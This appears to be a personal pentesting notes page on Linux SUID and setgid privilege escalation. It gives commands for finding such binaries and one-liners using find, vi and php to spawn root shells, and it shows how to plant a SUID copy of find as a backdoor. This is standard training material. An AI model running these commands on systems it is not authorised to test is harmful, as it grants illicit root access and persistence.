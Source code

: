 ```yaml
---
title: Suid and Setgid Binaries
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Suid and Setgid Binaries

## Suid binaries

The Set-Group-ID (setgid) permission is another special permission that allows us to run binaries as if we were part of the group that created them. 

Resources: [https://gtfobins.github.io/](https://gtfobins.github.io/) contains a list of commands and how they can be exploited through "sudo". 

Equivalent to suid binaries in Windows would be: [LOLBAS](https://lolbas-project.github.io/)


```shell-session
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```


## Most used (by me)

### find

#### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
find . -exec /bin/sh \; -quit
```

#### SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```

#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo find . -exec /bin/sh \; -quit
```

### vi

#### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
#one way
vi -c ':!/bin/sh' /dev/null

# another way
vi
:set shell=/bin/sh
:shell
```
Used at [HTB machine Vaccine](htb-vaccine.md).


#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

### php

#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```



## Setgid Binaries

The Set-Group-ID (setgid) permission is another special permission that allows us to run binaries as if we were part of the group that created them. 

```shell-session
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```